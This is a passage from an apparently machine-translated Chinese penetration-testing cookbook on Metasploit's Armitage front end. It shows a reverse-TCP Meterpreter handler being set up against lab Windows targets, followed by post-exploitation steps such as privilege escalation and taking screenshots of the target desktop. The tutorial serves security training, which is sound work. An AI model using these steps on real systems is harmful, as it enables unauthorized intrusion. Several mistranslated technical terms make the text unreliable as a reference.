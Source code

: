 ## 怎么做。。。

在前面的配方中，我们已经破坏了我们的 Windows XP 目标。我们还有两个目标。我们可以通过右键单击 Windows 2008 服务器并选择一个漏洞来利用它。或者，我们也可以通过进入**查看****控制台来启动一个新的控制台。**这将启动一个新的控制台，在那里我们可以使用命令行来破坏目标。

## 它是如何工作的。。。

让我们设置一个多处理器，并使用客户端漏洞攻击目标。

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > exploit
[-] Handler failed to bind to 192.168.56.101:15263
[-] Handler failed to bind to 0.0.0.0:15263
[-] Exploit exception: The address is already in use (0.0.0.0:15263).
[*] Exploit completed, but no session was created. 
```

您可以看到，利用漏洞命令抛出了一个错误，它无法在 `192.168.56.101:15263`上绑定反向处理程序。这是因为在利用 Windows XP 目标时，我们已经在此端口上设置了反向连接。因此，我们必须更改端口号，并再次使用“利用漏洞”命令。

```
msf exploit(handler) > set LPORT 1234
LPORT => 1234
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:1234
[*] Starting the payload handler... 
```

现在，一旦客户端攻击成功执行，我们将有一个反向连接，我们将有针对 2008 年服务器目标的闪电。

这里需要注意的重要一点是，对于不同的目标，我们有不同的选项卡。通过切换选项卡，我们可以轻松与任何受损目标进行交互：

![How it works...](graphics/7423_09_08.jpg)

这是 Armitage 的另一个重要功能，简化了渗透测试过程。当我们处理网络中的多个目标时，这是非常有益的。

# 使用 Armitage 进行后期开发

在前面的配方中，我们看到了 Armitage 在处理多个目标时是如何有用的。一旦目标被利用，我们的下一步将是执行各种利用后活动。让我们看看 Armitage 在开发后阶段是如何变得方便的。

## 准备好了吗

我们将分析被攻击的 Windows XP 目标，并了解如何在其上执行多个攻击后活动。

## 怎么做。。。

一旦目标被攻击，我们可以通过右键单击其图像来遵循几个 MeterMeter 选项。我们可以使用一些常用的开发后操作，如访问、交互和透视。只需单击几下，我们就可以执行多个操作。让我们执行后开发的第一个也是最基本的阶段——**权限提升**。我们可以通过右键单击目标图像并导航到**计量器****访问****升级权限**来找到此选项。另一个有趣的开发后活动是**截图**，可以通过**米表****探索****截图**浏览。目标桌面的屏幕截图将显示在新选项卡中，您可以随时刷新该选项卡。下面的屏幕截图演示了这一点：

